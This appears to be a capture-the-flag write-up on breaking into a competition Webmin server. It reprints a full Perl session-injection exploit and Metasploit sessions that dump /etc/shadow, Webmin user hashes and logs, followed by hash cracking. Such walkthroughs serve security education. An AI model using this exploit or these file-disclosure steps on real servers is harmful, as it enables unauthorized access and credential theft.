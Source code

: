 Title: NCL Exploit 2: Webmin Writeup
Date: 2014-09-30 22:49
Category: Old Posts
Tags: old
Slug: NCL-Exploit-2:-Webmin-Writeup
Authors: wumb0

This one was fun. The challenge was titled Exploit 2 with the task of finding the flag on the system. A quick nmap scan with service detection showed a Webmin console running on port 10000. I tried searching for a default password for default webmin login but it reads from shadow. I decided to look into webmin vulns next. A quick google search uncovered a remote command execution vuln! Hallelujah! I found the following exploit code.

<pre><code class="lang:perl">
#!/usr/bin/perl
#
# Exploit for Webmin 1.050 - 1.060 by Carl Livitt
#
# Inserts a fake session_id into the sessions list of webmin.
# Does no error checking... if remote host is not found, no
# error will be reported.
#

print "Webmin 1.050 - 1.060 Remote SID Injection Exploit\n";
print "By Carl Livitt \n\n";

$nc="/usr/bin/nc";

if($#ARGV == -1) {
    print "Syntax:\n\t$0 hostname\n";
    exit(1);
}

$hostname=$ARGV[0];

if ( ! -x $nc ) {
    print "netcat not found!\n";
    exit(2);
}

open(NC, "|$nc $hostname 10000 >& /dev/null");
print NC "GET / HTTP/1.1\n";
print NC "Host: $hostname\n";
print NC "User-agent: webmin\n";
print NC "Authorization: Basic YSBhIDEKbmV3IDEyMzQ1Njc4OTAgYWRtaW46cGFzc3dvcmQ=\n\n";
close(NC);

print "You should now have a session\_id of 1234567890 for user 'admin' on host $hostname.\n";
print "Just set two cookies in your browser:\n\ttesting=1\n\tsid=1234567890\nand you will ";
print "be authenticated to the webmin server!\n\n";
print "Note: This will only work on a webmin server configured with the 'passdelay' option.\n";
</code></pre>

Escalating to admin looks good. Unfortunately, the exploit didn't seem to be working when I plugged the correct cookie values into Firefox.
So I kept looking... Metasploit module for file disclosure: auxiliary/admin/webmin/file\_disclosure
[[more]]


<pre><code>
msf auxiliary(file\_disclosure) > use auxiliary/admin/webmin/file_disclosure
msf auxiliary(file\_disclosure) > show options

Module options (auxiliary/admin/webmin/file\_disclosure):

   Name     Current Setting    Required  Description
   ----     ---------------    --------  -----------
   DIR      /unauthenticated   yes       Webmin directory path
   Proxies                     no        Use a proxy chain
   RHOST    54.221.*.*         yes       The target address
   RPATH    /etc/passwd        yes       The file to download
   RPORT    10000              yes       The target port
   VHOST                       no        HTTP server virtual host
</code></pre>
Let's try it out...
<pre><code>
msf auxiliary(file\_disclosure) > exploit
[\*] Attempting to retrieve /etc/passwd...
[\*] The server returned: 200 Document follows
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
...
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
[\*] Auxiliary module execution completed
</code></pre>
HELL YES. But just to make sure we can get to ANY file...
<pre><code>
msf auxiliary(file\_disclosure) > set RPATH /etc/shadow
RPATH => /etc/shadow
msf auxiliary(file\_disclosure) > exploit
</code></pre>
Sure enough, the whole shadow file was dumped. There was one user with a hash: ubuntu. I took that attack vector, I started cracking it. SSH was also open on the machine, but unfortunately it only accepted authorized_keys. I stopped the crack, saved the hash for later, and continued my search for the flag.
The problem here is that directories cannot be listed, so we need to know what files to look in. I thought that maybe they had left their SSH keys lying around so I looked in /home/ubuntu/.ssh/ for id_rsa and id_dsa but no such luck. I searched around the internet for important webmin files and I found /etc/webmin/miniserv.conf. In this file there was the location of a users file...
<pre><code>
session=1
<b>userfile=/etc/webmin/miniserv.users</b>
keyfile=/etc/webmin/miniserv.pem
passwd\_file=/etc/shadow
</code></pre>
Looking in that file gave me back a user named 'admin' and a corresponding hash! I started cracking again.
In the mean time I wanted to find out more information about the webmin install. I ran across the path to a logfile: /var/webmin/webmin.log
So I ran the module:
<pre><code>
msf auxiliary(file\_disclosure) > set RPATH /var/webmin/webmin.log
RPATH => /var/webmin/webmin.log
msf auxiliary(file\_disclosure) > exploit
[\*] Attempting to retrieve /var/webmin/webmin.log...
[\*] The server returned: 200 Document follows
1412056349.16448.0 [30/Sep/2014 05:52:29] admin 48ce0c8821c3b8e1bb0d4e1da9f6bfb3 69.243.41.246 shell index.cgi "run" "-" "-" cmd
='ls'
1412056361.16443.0 [30/Sep/2014 05:52:41] admin 48ce0c8821c3b8e1bb0d4e1da9f6bfb3 69.243.41.246 shell index.cgi "run" "-" "-" cmd
='echo ls'
...
1412058045.17086.0 [30/Sep/2014 06:20:45] admin bd3bb672780ccf9c85e4c31761e54e0c 96.244.40.9 shell index.cgi "run" "-" "-" cmd='cat flag.php'
1412058064.17085.0 [30/Sep/2014 06:21:04] admin bd3bb672780ccf9c85e4c31761e54e0c 96.244.40.9 shell index.cgi "run" "-" "-" cmd='find / -name flag.php'
1412058074.17133.0 [30/Sep/2014 06:21:14] admin bd3bb672780ccf9c85e4c31761e54e0c 96.244.40.9 shell index.cgi "run" "-" "-" cmd='cat <strong>/var/www/flag.php</strong>'
</code></pre>
YES! That looks good... Now to look in that file...
<pre><code>
msf auxiliary(file\_disclosure) > set RPATH /var/www/flag.php
RPATH => /var/www/flag.php
msf auxiliary(file\_disclosure) > exploit
[\*] Attempting to retrieve /var/www/flag.php...
[\*] The server returned: 200 Document follows
<? // THIS IS THE RRAL FLAG FOR THIS SYSTEM: <strong>NCL-OSSL-1337</strong> FLAG FLAG FLAG ?>;
[\*] Auxiliary module execution completed
</code></pre>
Got it, <b>NCL-OSSL-1337</b>.
